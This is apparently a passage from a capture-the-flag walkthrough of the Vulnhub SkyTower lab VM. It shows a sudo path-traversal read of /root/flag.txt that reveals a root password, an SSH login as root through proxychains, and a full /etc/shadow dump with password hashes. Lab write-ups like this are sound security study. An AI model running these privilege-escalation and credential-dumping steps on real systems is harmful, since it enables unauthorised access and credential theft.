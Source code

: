 ```
william:$6$c3VykdoT$qRUKl1e77skTm0sLHavRSp8mUJfMIPrJBovrXC8o9GY8/P7gpasSbvtqA0rn9.HyxjKhSVji8/CzHNFLit3GU1:16241:0:99999:7:::


```
#let mee if root has any thing

```

bash-4.2$ sudo ls /accounts/../roots
ls: cannot access /accounts/../roots: No such file or directory
bash-4.2$ sudo ls /accounts/../root
flag.txt
bash-4.2$ sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
bash-4.2$ 


```
#wow i have root password now i can go more
```
┌──(cyberkid㉿kali)-[~/Desktop/Vulnhub/skytower]
└─$ proxychains ssh -oHostKeyAlgorithms=+ssh-rsa root@192.168.56.101 -t "bash --noprofile --norc"

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  192.168.56.101:3128  ...  192.168.56.101:22  ...  OK
root@192.168.56.101's password: 
bash-4.2# whoami
root
bash-4.2# 
bash-4.2# cat /etc/shadow
root:$6$rKYhh57q$AVs1wNVSbE5K.IU1Wp9l7Ndg3iPlB7yczctQD6OL9fBZir2ppGDA6v0Vx17xjg.b3zu6mkAVpEN2BuG3wvS2l/:16241:0:99999:7:::
daemon:*:16241:0:99999:7:::
bin:*:16241:0:99999:7:::
sys:*:16241:0:99999:7:::
sync:*:16241:0:99999:7:::
games:*:16241:0:99999:7:::
man:*:16241:0:99999:7:::
lp:*:16241:0:99999:7:::
mail:*:16241:0:99999:7:::
news:*:16241:0:99999:7:::
uucp:*:16241:0:99999:7:::
proxy:*:16241:0:99999:7:::
www-data:*:16241:0:99999:7:::
backup:*:16241:0:99999:7:::
list:*:16241:0:99999:7:::
irc:*:16241:0:99999:7:::
gnats:*:16241:0:99999:7:::
nobody:*:16241:0:99999:7:::
libuuid:!:16241:0:99999:7:::
sshd:*:16241:0:99999:7:::
mysql:!:16241:0:99999:7:::
john:$6$a39powbs$ditVKZ1waa6vJEh3BG1d5jLv/uADKcl.r1kcA.XKyhNfJoiDhSdwmSZel3V5cZ/S6ec3wd8rdNA2dOznTXhl0/:16198:0:99999:7:::
sara:$6$2PvpHNG0$hbaMRd5fZhWMDHyyhGHINSy.qBHnvP4QW1k9RSwv.pQM6SoZey53C7S7aF6263ae6qx5TwVA6sahf5tebUqvY1:16198:0:99999:7:::
william:$6$c3VykdoT$qRUKl1e77skTm0sLHavRSp8mUJfMIPrJBovrXC8o9GY8/P7gpasSbvtqA0rn9.HyxjKhSVji8/CzHNFLit3GU1:16241:0:99999:7:::
bash-4.2# 

```